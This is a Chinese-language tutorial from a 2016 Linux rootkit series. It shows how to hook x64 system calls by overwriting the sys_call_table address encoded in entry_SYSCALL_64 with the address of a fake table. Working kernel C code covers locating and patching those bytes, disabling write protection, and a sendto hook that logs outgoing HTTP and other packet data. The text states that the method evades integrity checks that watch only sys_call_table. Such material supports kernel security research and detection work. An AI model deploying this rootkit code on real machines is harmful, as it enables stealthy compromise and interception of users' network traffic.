




Linux Rootkit 系列六：基于修改派遣例程的系统调用挂钩
====================================================

**最后修改时间** ： **2016-07-25 CST** 。

rectigu@gmail.com, 二〇一六年七月。

前言
----

**鉴于笔者知识能力上的不足，如有疏忽，欢迎纠正。**

照旧，本文所需的相关代码位于如下代码仓库：
https://github.com/NoviceLive/research-rootkit。

**测试建议：为了愉快地 Happy Hacking，请不要在物理机玩火。**

概要
----

本文为 `基于修改 sys_call_table 的系统调用挂钩`_ 的后续，
继续讲解围绕系统调用的挂钩方案。
第一部分以简要的系统调用挂钩综述纵览全局，
然后迅速切入本文的中心话题，篡改派遣例程：
对照相关反汇编与代码细致讲述如何从派遣例程中
抽取、篡改与恢复编码着系统调用表地址的那 4 个关键字节。
第二部分则是一个简易的系统调用应用示例，初级网络数据监控。

**提示** ：本文以 x64 ``syscall`` 发起的系统调用
（即派遣例程为 ``entry_SYSCALL_64``）为例，
其他情况，读者可以尝试举一反三。

第一部分：基于修改派遣例程的系统调用挂钩
----------------------------------------

1. 系统调用挂钩综述
+++++++++++++++++++

我们简要地看看从发起系统调用到完成系统调用这个过程中的控制转移，
想了解其中的详尽细节的话，可以结合参考资料阅读相关源代码。

1. 用户函数调用库函数，库函数最终发起系统调用;

   **注** ： 钩用户函数到库函数的控制转移，可以自行查找相关资料，
   似乎 ``LD_PRELOAD`` 是最受欢迎的。

2. CPU 以特权级 0 执行某个处理函数，
   这个处理函数通常叫 ``系统调用派遣例程`` ；

3. 派遣例程进行必要准备（比如保存寄存器，切换到内核栈等）
   与检查（比如系统调用号是否有效）工作之后，
   调用系统调用表中相应系统调用号的处理函数，
   这个处理函数通常叫 ``系统调用服务例程`` ；

4. 服务例程要完成任务，很可能需要调用更下层的关键函数；

   **注** ： 内联钩服务例程的下层函数，更隐蔽。参见 `高级Linux Kernel Inline Hook技术分析与实现`_ 。

5. 服务例程完成任务后返回到派遣例程，
   派遣例程进行必要的恢复（比如恢复寄存器）工作；

6. 控制权返回到发起系统调用的库函数，
   库函数进行包装处理（比如系统调用的返回值）之后返回到用户函数。

简言之， ``用户函数`` --> ``库函数`` --> ``派遣例程`` --> ``服务例程``
--> ``服务例程依赖的更底层函数`` 。

在这个过程中的每一步、每一点都可以或者可能被篡改，
不过我们倾向于篡改其中的某几个关键的控制转移点，
比如 `基于修改 sys_call_table 的系统调用挂钩`_
中讲的 ``sys_call_table`` ；
比如本文要讲的改派遣例程；
又比如篡改系统调用服务例程，这个可以使用内联挂钩，
篡改服务例程起始处的若干字节，劫持其控制权。

下面，我们看看其中的一个关键点，
``entry_SYSCALL_64`` 中的 ``sys_call_table`` 。

2. 派遣例程的篡改方式
+++++++++++++++++++++

不是说好的改 ``entry_SYSCALL_64`` 吗，
为什么 ``sys_call_table`` 又亮相了？

情况是这样子的，简单讲，
因为 ``entry_SYSCALL_64`` 的机器指令里包含
``sys_call_table`` 的地址，
如果我们改掉这几个字节，
``entry_SYSCALL_64`` 查的表也就在我们的掌控之下了。

仔细说来，基于修改派遣例程的钩法有多种不同的可能。
我们知道，在 ``x64`` 下使用 ``syscall`` 发起系统调用时，
控制权会转移到 ``MSR_LSTAR`` 中存储的地址，
这个地址也就是 ``entry_SYSCALL_64`` 的地址。

所以，第一种可能的形式就是篡改 ``MSR_LSTAR`` ，
把它改成一个假的派遣例程的地址，
让这个假的派遣例程来做系统调用的派遣。

第二种可能的形式是，不修改 ``MSR_LSTAR`` ，
而是修改 ``entry_SYSCALL_64`` 起始处的若干字节，
将控制转移到一个我们控制的函数，
由我们的函数接下来做系统调用派遣工作。
也就是内联钩 ``entry_SYSCALL_64`` 。

第三种则是，既不修改 ``MSR_LSTAR`` 也不内联钩 ``entry_SYSCALL_64`` ，
而是将 ``entry_SYSCALL_64`` 中含有的 ``sys_call_table`` 的地址替换成
我们掌控的假的 ``sys_call_table`` 的地址。接下来我们讲讲这种钩法。

3. 获取 ``entry_SYSCALL_64`` 中的 ``sys_call_table``
++++++++++++++++++++++++++++++++++++++++++++++++++++

通过反汇编 ``entry_SYSCALL_64`` ，我们可以明显的看到，
进行系统调用派遣的是这一行。
请注意，这时候的 ``rax`` 中存放着系统调用号。

::

   5f:       ff 14 c5 a0 01 60 81    call   QWORD PTR [rax*8-0x7e9ffe60]

指令形式为： ``call QWORD PTR [index * scale + disp32]`` 。
具体来看， ``index`` 也就是 ``rax`` 即系统调用号；
``scale`` 为 ``8`` 即 x64 的指针大小；
``disp32`` 为 ``-0x7e9ffe60`` ，也就是系统调用表的地址。

这一行汇编的机器码有 7 个字节，
即 ``ff 14 c5 a0 01 60 81`` ，
其中， 我们要改的是 ``disp32``，
即 ``a0 01 60 81`` ，
而这也就是 ``sys_call_table`` 的地址了。

我们使用 ``ff 14 c5`` 作为特征字节搜索
``entry_SYSCALL_64`` 的机器码，
然后读出 4 个字节的 ``sys_call_table`` 的地址，
符号拓展到 64 比特：
因为它的符号位是 1，我们可以简单的将高 32 比特补成 1 就好了。

请看代码。

.. code-block:: c

   // get_lstar_sct_addr 用于获取 entry_SYSCALL_64 机器码中编码着
   // sys_call_table 地址的那几个字节在内存中的起始地址。
   void *
   get_lstar_sct_addr(void)
   {
       u64 lstar;
       u64 index;

       // 从 MSR_LSTAR 里读出 entry_SYSCALL_64 的地址。
       rdmsrl(MSR_LSTAR, lstar);

       // 开始搜索。
       for (index = 0; index <= PAGE_SIZE; index += 1) {
           u8 *arr = (u8 *)lstar + index;

           // 判断当前的位置的三个字节是否是特征字节。
           if (arr[0] == 0xff && arr[1] == 0x14 && arr[2] == 0xc5) {
               // 找到了特征字节，将目标的地址返回。
               return arr + 3;
           }
       }

       return NULL;
   }

   unsigned long **
   get_lstar_sct(void)
   {
       // 获取目标地址。
       unsigned long *lstar_sct_addr = get_lstar_sct_addr();
       if (lstar_sct_addr != NULL) {
           u64 base = 0xffffffff00000000;
           // 获取 32 比特。
           u32 code = *(u32 *)lstar_sct_addr;
           // 直接把高 32 比特填 1 就好了。
           return (void *)(base | code);
       } else {
           return NULL;
       }
   }

参考结果
********

这里需要解释一下，从截图中我们可以看到，
通过 `基于修改 sys_call_table 的系统调用挂钩`_
中的方法拿到的 ``sys_call_table`` 的地址是
``ffff8800016001a0`` ，
而从 ``entry_SYSCALL_64`` 中拿到的 ``sys_call_table`` 的地址是
``ffffffff816001a0`` 。

为什么这两个值不一致呢？
因为这两个是两个不同的虚拟地址，
它们对应的物理地址一样的。
同样看截图，它们物理地址都是 ``16001a0`` 。

把虚拟地址变成物理地址，我们可以使用 ``virt_to_phys`` ，
反过来的话，我们可以使用 ``phys_to_virt`` 。
函数原型如下：

.. code-block:: c

   static inline phys_addr_t
   virt_to_phys(volatile void *address);

   static inline void *
   phys_to_virt(phys_addr_t address);

4. 修改与恢复 ``entry_SYSCALL_64`` 中的 ``sys_call_table``
++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

有了第 3 小节中实现的 ``get_lstar_sct_addr`` ，
要修改或者恢复 ``entry_SYSCALL_64`` 中的 ``sys_call_table``
并不复杂。下面是 ``set_lstar_sct`` 的实现。

.. code-block:: c

   int
   set_lstar_sct(u32 address)
   {
       unsigned long *lstar_sct_addr = get_lstar_sct_addr();
       if (lstar_sct_addr != NULL) {
           u8 *arr = (u8 *)lstar_sct_addr;
           u8 *new = (u8 *)&address;

           fm_alert("%02x %02x %02x %02x\n",
                    arr[0], arr[1], arr[2], arr[3]);
           fm_alert("%02x %02x %02x %02x\n",
                    new[0], new[1], new[2], new[3]);

           disable_wp();
           memcpy(lstar_sct_addr, &address, sizeof address);
           enable_wp();

           return 0;
       } else {
           return 1;
       }
   }

修改
****

.. code-block:: c

   # define NAME "entry"

   struct proc_dir_entry *entry;

   ssize_t
   write_handler(struct file * filp, const char __user *buff,
                 size_t count, loff_t *offp);

   struct file_operations proc_fops = {
       .write = write_handler
   };

   // kernel text mapping, from phys 0
   // ffffffff80000000 - ffffffffa0000000 (=512 MB)

   // 模块映射空间地址范围。
   // ffffffffa0000000 - ffffffffff5fffff (=1526 MB)

   // 请注意：我们只能编码 4 个字节到 entry_SYSCALL_64 里。
   // 所以，我们需要使用形如 0xffffffffXXXXXXXX 的地址，
   // 这样可以借助符号拓展。
   // 静态分配可以得到这种地址，至于为什么请看模块映射空间的地址范围。
   u64 fake_sct[__NR_syscall_max + 1] = { 0 };

   // 把代码放到一个 /proc 文件的写处理函数里
   // 是为了在内核调试的时侯方便下断点。
   ssize_t
   write_handler(struct file * filp, const char __user *buff,
                 size_t count, loff_t *offp)
   {
       u64 *real_sct;

       real_sct = (u64 *)get_sct_via_sys_close();
       if (real_sct == NULL) {
           fm_alert("%s\n", "get_sct failed.");
           return count;
       }
       fm_alert("real sys_call_table: %p\n", real_sct);
       fm_alert("fake sys_call_table: %p\n", fake_sct);

       memcpy(fake_sct, real_sct, sizeof fake_sct);

       set_lstar_sct((u32)(unsigned long)fake_sct);

       return count;
   }

恢复
****

.. code-block:: c

   // 使用基于导出的 sys_close 搜内存的方法拿到表的地址。
   real_sct = get_sct_via_sys_close();
   // 拿到 entry_SYSCALL_64 中写死在机器码中的表的地址。
   lstar_sct = get_lstar_sct();

   if (real_sct == NULL || lstar_sct == NULL) {
       return 1;
   }

   fm_alert("%s\n", "==> According to sys_close:");
   fm_alert("virt: %p\n", real_sct);
   real_phys = virt_to_phys(real_sct);
   fm_alert("phys: %llx\n", real_phys);

   fm_alert("%s\n", "==> According to entry_SYSCALL_64:");
   fm_alert("virt: %p\n", lstar_sct);
   lstar_phys = virt_to_phys(lstar_sct);
   fm_alert("phys: %llx\n", lstar_phys);

   if (real_phys == lstar_phys) {
       // 两个地址是同一个，不用做恢复。
       fm_alert("%s\n", "==> Matched.");
   } else {
       // 两个地址不一样，恢复成基于 sys_close 得到的那个地址。
       fm_alert("%s\n", "==> Patching to that from sys_close...");
       // 恢复到正常的值。
       set_lstar_sct((u32)(unsigned long)phys_to_virt_kern(real_phys));
   }

参考结果
********

**请注意顺序！**

卸载 ``setko`` 之前，需要确保已经恢复到原来的值；
否则，机器将不能继续运行。

5. 比较
+++++++

这种钩法相比于直接改 ``sys_call_table`` 有什么优势呢？

痕迹更少。
或者说，可以被检测到的、对系统的更改更少，我们只修改了派遣例程的 4 个字节，
而真的 ``sys_call_table`` 完好无损。

因而，对于那些只检测 ``sys_call_table`` 完整性
而不检查派遣例程完整性的检测逻辑，本文的方法是可以躲过检测的。

第二部分：基于系统调用挂钩的初级流量监视
----------------------------------------

监视本机发出去的数据包。
考虑到 ``sys_send`` 是用 ``sys_sendto`` 实现的，
所以我们只钩 ``sys_sendto`` 就好了。

1. 伪造假的 ``sys_call_table`` 并钩调其中的 ``sys_sendto``
++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

.. code-block:: c

   real_sct = get_sct_via_sys_close();
   if (real_sct == NULL) {
       return 1;
   }

   real_phys = virt_to_phys(real_sct);
   fm_alert("real sys_call_table: %p phys: %llx\n",
            real_sct, real_phys);
   fm_alert("fake sys_call_table: %p phys: %llx\n",
            fake_sct, virt_to_phys(fake_sct));

   // 复制真表的内容到假表。
   memcpy(fake_sct, real_sct, sizeof fake_sct);

   // 钩调假表中的 sys_sendto。
   HOOK_SCT(fake_sct, sendto);

   // 把 entry_SYSCALL_64 中的真表地址替换成假表地址。
   set_lstar_sct((u32)(unsigned long)fake_sct);

2. sys_sendto 的钩子函数
++++++++++++++++++++++++

.. code-block:: c

   asmlinkage long
   fake_sendto(int fd, void __user *buff, size_t len, unsigned flags,
               struct sockaddr __user *addr, int addr_len)
   {
       void *kbuf = kmalloc(len + 1, GFP_KERNEL);
       if (kbuf != NULL) {
           if (copy_from_user(kbuf, buff, len)) {
               fm_alert("%s\n", "copy_from_user failed.");
           } else {
               if (memcmp(kbuf, "GET", 3) == 0 ||
                   memcmp(kbuf, "POST", 4) == 0) {
                   // 如果是 GET 与 POST 我们就按文本方式打印到日志。
                   print_ascii(kbuf, len, "ascii");
               } else {
                   // 如果是其他内容，打印 16 进制 dump 到日志。
                   print_memory(kbuf, len, "memory");
               }
           }
           kfree(kbuf);
       } else {
           fm_alert("%s\n", "kmalloc failed.");
       }

       // 交给真的 sys_sendto 处理，并返回。
       return real_sendto(fd, buff, len, flags, addr, addr_len);
   }

3. 测试
+++++++

参考结果1： ``ping``
********************

``ping`` 发出的包，这里我们就不看其结构了。

参考结果2： ``HTTP GET / POST``
*******************************

打开浏览器，随手打开个 ``HTTP`` 网站，
可以看到右侧日志窗口飞快在显示发出去的各种网络数据，
比如 ``HTTP GET``。

第三部分： 参考资料与延伸阅读
-----------------------------

1. 参考资料
+++++++++++

- `How does the Linux kernel handle a system call <https://0xax.gitbooks.io/linux-insides/content/SysCall/syscall-2.html>`_

- `Documentation/x86/x86_64/mm.txt <https://www.kernel.org/doc/Documentation/x86/x86_64/mm.txt>`_

2. 延伸阅读
+++++++++++

- `高级Linux Kernel Inline Hook技术分析与实现`_
- `X86-64 Instruction Encoding <http://wiki.osdev.org/X86-64_Instruction_Encoding>`_

.. _基于修改 sys_call_table 的系统调用挂钩: http://www.freebuf.com/sectool/105713.html

.. _高级Linux Kernel Inline Hook技术分析与实现: http://old.sebug.net/paper/pst_WebZine/pst_WebZine_0x03/html/%5BPSTZine%200x03%5D%5B0x03%5D%5B%E9%AB%98%E7%BA%A7Linux%20Kernel%20Inline%20Hook%E6%8A%80%E6%9C%AF%E5%88%86%E6%9E%90%E4%B8%8E%E5%AE%9E%E7%8E%B0%5D.html
